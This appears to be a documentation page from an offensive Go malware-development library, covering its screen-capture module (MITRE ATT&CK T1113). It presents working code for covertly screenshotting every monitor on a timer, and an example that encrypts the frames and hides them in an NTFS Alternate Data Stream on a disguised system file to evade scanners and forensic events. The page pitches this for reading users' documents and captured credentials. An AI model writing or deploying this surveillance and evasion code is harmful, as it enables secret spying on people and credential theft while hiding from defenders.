

# Screen Capture

[<- Back to Collection Overview](README.md)

**MITRE ATT&CK:** [T1113 - Screen Capture](https://attack.mitre.org/techniques/T1113/)
**Package:** `collection/screenshot`
**Platform:** Windows
**Detection:** Medium

---

## Primer

Screen capture takes a screenshot of the user's display and returns it as PNG bytes. This is useful for reconnaissance — seeing what the user is working on, reading documents on screen, or capturing credentials displayed in browser windows.

---

## How It Works



**Multi-monitor:** `DisplayCount()` and `DisplayBounds()` enumerate monitors via `EnumDisplayMonitors`. `CaptureDisplay(index)` captures a specific monitor.

---

## Usage

```go
import "github.com/oioio-space/maldev/collection/screenshot"

// Primary display
png, err := screenshot.Capture()
os.WriteFile("screen.png", png, 0644)

// Specific region
png, err = screenshot.CaptureRect(0, 0, 1920, 1080)

// Specific monitor
count := screenshot.DisplayCount()
for i := 0; i < count; i++ {
    png, _ := screenshot.CaptureDisplay(i)
    os.WriteFile(fmt.Sprintf("monitor_%d.png", i), png, 0644)
}
```

---

## Advanced — Periodic All-Monitor Capture

Capture every monitor on a ticker, name each file with a timestamp so the
operator gets a timeline without collisions, and stop cleanly on context
cancellation.

```go
import (
    "context"
    "fmt"
    "os"
    "time"

    "github.com/oioio-space/maldev/collection/screenshot"
)

func recordDisplays(ctx context.Context, interval time.Duration, outDir string) {
    tick := time.NewTicker(interval)
    defer tick.Stop()
    for {
        select {
        case <-ctx.Done():
            return
        case t := <-tick.C:
            count := screenshot.DisplayCount()
            for i := 0; i < count; i++ {
                png, err := screenshot.CaptureDisplay(i)
                if err != nil {
                    continue
                }
                name := fmt.Sprintf("%s/%s_mon%d.png",
                    outDir, t.Format("150405"), i)
                _ = os.WriteFile(name, png, 0o600)
            }
        }
    }
}
```

---

## Combined Example — ADS-Hidden Encrypted Captures

Capture the primary display periodically, encrypt each frame with AES-GCM,
and append it to an NTFS Alternate Data Stream — the PNG bytes never appear
as a recognisable file on disk.

```go
package main

import (
    "context"
    "time"

    "github.com/oioio-space/maldev/collection/screenshot"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/system/ads"
)

const (
    adsHost   = `C:\ProgramData\Microsoft\Windows\Caches\thumbs.db`
    adsStream = "frames"
)

func main() {
    key, _ := crypto.NewAESKey()
    ctx := context.Background()
    tick := time.NewTicker(30 * time.Second)
    defer tick.Stop()

    for {
        select {
        case <-ctx.Done():
            return
        case <-tick.C:
            png, err := screenshot.Capture()
            if err != nil {
                continue
            }
            blob, _ := crypto.EncryptAESGCM(key, png)

            // Append-write: each beacon run reads and clears the ADS.
            existing, _ := ads.Read(adsHost, adsStream)
            _ = ads.Write(adsHost, adsStream, append(existing, blob...))
        }
    }
}
```

Layered benefit: AES-GCM keeps the PNG bytes unrecognisable to file scanners;
the ADS keeps the artefact off the standard filesystem view; attaching to a
pre-existing file avoids MFT-creation events.

---

## API Reference

See [collection.md](../../collection.md#collectionscreenshot----screen-capture)
